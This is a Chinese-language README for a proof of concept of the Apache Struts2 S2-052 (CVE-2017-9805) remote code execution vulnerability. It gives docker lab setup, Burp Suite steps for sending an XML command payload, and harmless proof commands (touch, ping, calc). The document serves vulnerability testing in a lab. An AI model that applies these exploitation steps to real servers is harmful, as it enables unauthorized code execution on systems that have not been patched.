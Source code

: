 ## S2-052（CVE-2017-9805）

struts2 052远程代码执行漏洞POC利用（影响版本：Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12） 官方介绍：https://cwiki.apache.org/confluence/display/WW/S2-052 此POC是在struts-2.5.12版本测试验证的。

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```


## POC
http://10.160.11.191:8080/orders.xhtml

如果上述都顺利的话可以看到Orders可编辑界面，下面是POC测试过程。 点击Order 3编辑，进入到修改界面，点击"提交"Burpsuite抓包，然后修改Content-Type为application/xml格式，post数据替换为poc中data提交。

```
root@070efab61a6e:/usr/local/tomcat# ls /tmp/ -l
total 4
drwxr-xr-x 2 root root 4096 Oct 10 07:47 hsperfdata_root
-rw-r----- 1 root root    0 Oct 10 07:52 vuln
root@070efab61a6e:/usr/local/tomcat# date
Tue Oct 10 07:52:54 UTC 2017

```

## 期望结果
1、期望在/tmp/目录下创建vuln文件，证明命令被执行。

2、/usr/bin/ping *.*.*.*  命令执行ping，通过docker宿主机tcpdump -ni br-cd0dcca0f917 抓包证明命令被执行。

docker环境下touch命令：
<command>
<string>/usr/bin/touch</string><string>/tmp/vuln</string>
</command>

Notes:
Windows下关键字为：

<command><string>calc</string></command>
Mac下关键字为：

<command><string>/Applications/Calculator.app/Contents/MacOS/Calculator</string></command>

## 参考
* https://thief.one/2017/09/06/1/



## 免责申明：文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负